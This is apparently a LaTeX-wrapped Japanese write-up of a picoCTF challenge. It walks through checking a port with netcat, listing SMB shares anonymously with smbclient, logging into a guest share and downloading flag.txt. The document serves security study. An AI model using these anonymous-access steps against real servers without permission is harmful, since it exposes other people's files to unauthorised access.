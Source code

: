 \documentclass[a4paper,11pt,lualatex,ja=standard]{bxjsarticle}
\begin{document}
\section{メモ}
\begin{verbatim}

  やったことは SMB共有に匿名接続して、共有内の flag.txt を取得した です。

nc -vz mysterious-sea.picoctf.net 62461

これは ポートが開いているか確認 しています。
succeeded なので接続可能でした。

smbclient -L //mysterious-sea.picoctf.net -p 62461 -N

これは SMBの共有一覧を表示 しています。

意味：

shares  Disk  Public Share With Guests

shares という共有フォルダがあり、ゲストアクセス可能。

smbclient //mysterious-sea.picoctf.net/shares -p 62461 -N

これは shares 共有に匿名ログイン しています。

ls

共有フォルダ内のファイル一覧を見るコマンド。

結果：

dummy.txt
flag.txt

フラグファイルを発見。

get flag.txt

本来は flag.txt をローカルに保存するコマンドです。

\end{verbatim}
\end{document}
